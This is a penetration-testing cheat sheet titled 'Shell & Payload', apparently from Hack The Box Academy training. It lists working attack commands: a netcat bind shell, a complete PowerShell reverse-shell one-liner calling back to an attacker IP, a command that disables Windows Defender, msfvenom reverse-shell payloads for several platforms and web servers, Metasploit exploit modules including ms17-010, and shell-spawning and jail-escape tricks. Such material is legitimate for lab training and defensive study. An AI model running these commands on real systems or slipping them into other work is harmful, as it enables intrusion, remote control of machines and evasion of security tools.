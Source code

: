 # Shell & Payload

| **Commands**                                                                                                                                                                  | **Description**                                                                                                                                                                                       |                                                                                                                                                                                                                                                     |                                                                                                |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------- |
| `xfreerdp /v:10.129.x.x /u:htb-student /p:HTB_@cademy_stdnt!`                                                                                                                 | CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol.                                                                                                                 |                                                                                                                                                                                                                                                     |                                                                                                |
| `env`                                                                                                                                                                         | Works with many different command language interpreters to discover the environmental variables of a system. This is a great way to find out which shell language is in use.                          |                                                                                                                                                                                                                                                     |                                                                                                |
| `sudo nc -lvnp <port #>`                                                                                                                                                      | Starts a netcat listener on a specified port.                                                                                                                                                         |                                                                                                                                                                                                                                                     |                                                                                                |
| `nc -nv <ip address of computer with listener started> <port being listened on>`                                                                                              | Connects to a netcat listener at the specified IP address and port                                                                                                                                    |                                                                                                                                                                                                                                                     |                                                                                                |
| `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f \| /bin/bash -i 2>&1 \| nc -l 10.129.41.200 7777 > /tmp/f`                                                                           | Uses netcat to bind a shell (/bin/bash) the specified IP address and port. This allows for a shell session to be served remotely to anyone connecting to the computer this command has been issued on |                                                                                                                                                                                                                                                     |                                                                                                |
| <p><code>powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();</code><br><code>\[byte\[]]$bytes = 0..65535 | %{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName</code><br><code>System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1         | Out-String );$sendback2 = $sendback + 'PS</code><br><code>' + (pwd).Path + '> ';$sendbyte =</code><br><code>(\[text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"</code></p> | Powershell one-liner used to connect back to a listener that has been started on an attack box |
| `Set-MpPreference -DisableRealtimeMonitoring $true`                                                                                                                           | Powershell command using to disable real time monitoring in Windows Defender                                                                                                                          |                                                                                                                                                                                                                                                     |                                                                                                |
| `use exploit/windows/smb/psexec`                                                                                                                                              | Metasploit exploit module that can be used on vulnerable Windows system to establish a shell session utilizing smb & psexec                                                                           |                                                                                                                                                                                                                                                     |                                                                                                |
| `shell`                                                                                                                                                                       | Command used in a meterpreter shell session to drop into a system shell                                                                                                                               |                                                                                                                                                                                                                                                     |                                                                                                |
| `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf nameoffile.elf`                                                                                  | MSFvenom command used to generate a linux-based reverse shell stageless payload                                                                                                                       |                                                                                                                                                                                                                                                     |                                                                                                |
| `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe nameoffile.exe`                                                                                    | MSFvenom command used to generate a Windows-based reverse shell stageless payload                                                                                                                     |                                                                                                                                                                                                                                                     |                                                                                                |
| `msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho`                                                                              | MSFvenom command used to generate a MacOS-based reverse shell payload                                                                                                                                 |                                                                                                                                                                                                                                                     |                                                                                                |
| `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp`                                                                            | MSFvenom command used to generate a ASP web reverse shell payload                                                                                                                                     |                                                                                                                                                                                                                                                     |                                                                                                |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp`                                                                                 | MSFvenom command used to generate a JSP web reverse shell payload                                                                                                                                     |                                                                                                                                                                                                                                                     |                                                                                                |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f war nameoffile.war`                                                                                   | MSFvenom command used to generate a WAR java/jsp compatible web reverse shell payload                                                                                                                 |                                                                                                                                                                                                                                                     |                                                                                                |
| `use auxiliary/scanner/smb/smb_ms17_010`                                                                                                                                      | Metasploit exploit module used to check if a host is vulnerable to ms17-010                                                                                                                           |                                                                                                                                                                                                                                                     |                                                                                                |
| `use exploit/windows/smb/ms17_010_psexec`                                                                                                                                     | Metasploit exploit module used to gain a reverse shell session on a Windows-based system that is vulnerable to ms17\_010                                                                              |                                                                                                                                                                                                                                                     |                                                                                                |
| `use exploit/linux/http/rconfig_vendors_auth_file_upload_rce`                                                                                                                 | Metasploit exploit module that can be used to obtain a reverse shell on a vulnerable linux system hosting rConfig 3.9.6                                                                               |                                                                                                                                                                                                                                                     |                                                                                                |
| `python -c 'import pty; pty.spawn(""/bin/sh"")'`                                                                                                                              | Python command used to spawn an interactive shell on a linux-based system                                                                                                                             |                                                                                                                                                                                                                                                     |                                                                                                |
| `perl -e 'exec ""/bin/sh"";'`                                                                                                                                                 | Uses perl to spawn an interactive shell on a linux-based system                                                                                                                                       |                                                                                                                                                                                                                                                     |                                                                                                |
| `ruby: exec ""/bin/sh""`                                                                                                                                                      | Uses ruby to spawn an interactive shell on a linux-based system                                                                                                                                       |                                                                                                                                                                                                                                                     |                                                                                                |
| `Lua: os.execute('/bin/sh')`                                                                                                                                                  | Uses Lua to spawn an interactive shell on a linux-based system                                                                                                                                        |                                                                                                                                                                                                                                                     |                                                                                                |
| `awk 'BEGIN {system(""/bin/sh"")}'`                                                                                                                                           | Uses awk command to spawn an interactive shell on a linux-based system                                                                                                                                |                                                                                                                                                                                                                                                     |                                                                                                |
| `find / -name nameoffile -exec /bin/awk 'BEGIN {system(""/bin/sh"")}' \;`                                                                                                     | Uses find command to spawn an interactive shell on a linux-based system                                                                                                                               |                                                                                                                                                                                                                                                     |                                                                                                |
| `find . -exec /bin/sh \; -quit`                                                                                                                                               | An alternative way to use the find command to spawn an interactive shell on a linux-based system                                                                                                      |                                                                                                                                                                                                                                                     |                                                                                                |
| `vim -c ':!/bin/sh'`                                                                                                                                                          | Uses the text-editor VIM to spawn an interactive shell. Can be used to escape "jail-shells"                                                                                                           |                                                                                                                                                                                                                                                     |                                                                                                |
| `ls -la <path/to/fileorbinary>`                                                                                                                                               | Used to list files & directories on a linux-based system and shows the permission for each file in the chosen directory. Can be used to look for binaries that we have permission to execute          |                                                                                                                                                                                                                                                     |                                                                                                |
| `sudo -l`                                                                                                                                                                     | Displays the commands that the currently logged on user can run as sudo                                                                                                                               |                                                                                                                                                                                                                                                     |                                                                                                |
| `/usr/share/webshells/laudanum`                                                                                                                                               | Location of laudanum webshells On ParrotOS and Pwnbox                                                                                                                                                 |                                                                                                                                                                                                                                                     |                                                                                                |
| `/usr/share/nishang/Antak-WebShell`                                                                                                                                           | Location of Antak-Webshell on Parrot OS and Pwnbox                                                                                                                                                    |                                                                                                                                                                                                                                                     |                                                                                                |
